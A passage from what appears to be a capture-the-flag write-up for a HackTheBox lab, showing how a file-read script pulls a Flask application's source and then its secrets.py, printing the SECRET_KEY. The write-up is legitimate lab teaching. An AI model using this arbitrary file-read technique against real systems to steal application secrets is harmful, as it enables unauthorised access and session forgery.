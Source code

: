 
# ایک خرابی پیش آ گئی۔ {#ایک-خرابی-پیش-آ-گئی .message}

[اس ویڈیو کو www.youtube.com پر دیکھنے کی کوشش
کریں](https://www.youtube.com/watch?v=cu_wOqZbCqw){target="_blank"} یا
اگر آپ کے براؤزر میں JavaScript غیر فعال ہے تو اسے فعال کریں۔

The final script is available
[here](https://gitlab.com/0xdf/ctfscripts/-/blob/master/htb-rainyday/file_read.py).

### Website Access as jack

#### Read Web Source

I'll use the script to read the source for the web application at the
path leaked by `/api/healthcheck` on dev. It's very slow, but at the top
of the file, after all the other imports, there's an import of
`SECRET_KEY`:



    #!/usr/bin/python3 
                                            
    import re                     
    from flask import *
    import docker
    import bcrypt                                  
    import socket       
    import string
    from flask_sqlalchemy import SQLAlchemy 
    from os.path import exists
    from hashlib import md5
    from inspect import currentframe, getframeinfo 
    from urllib.parse import urlparse 
    from flask_limiter import Limiter
    from flask_limiter.util import get_remote_address

    #secrets.py 
    from secrets import SECRET_KEY

    app = Flask(__name__, static_url_path="")
    app.config['SECRET_KEY'] = SECRET_KEY
    app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///sessions/db.sqlite' 

    limiter = Limiter( 
    ...[snip]...



I'll read `secrets.py` from the same directory:



    oxdf@hacky$ python file_read.py /var/www/rainycloud/secrets.py
    SECRET_KEY = 'f77dd59f50ba412fcfbd3e653f8f3f2ca97224dd53cf6304b4c86658a75d8f67' 


